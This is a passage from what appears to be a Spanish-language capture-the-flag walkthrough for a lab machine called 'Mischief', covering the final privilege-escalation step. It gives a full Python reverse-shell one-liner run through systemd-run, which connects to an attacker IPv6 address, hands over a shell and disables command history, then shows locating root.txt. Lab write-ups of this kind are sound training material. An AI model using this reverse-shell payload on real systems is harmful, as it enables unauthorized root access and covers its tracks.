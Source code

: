 - Envia la revshell, modificando la ip:

```bash
systemd-run python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::1009",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/sh");s.close()'
```
Ya deberiamos tener una shell como root.
Encuentra la root.txt

```bash
root@Mischief:~# find / -type f -name root.txt 2>/dev/null
/usr/lib/gcc/x86_64-linux-gnu/7/root.txt
/root/root.txt
```
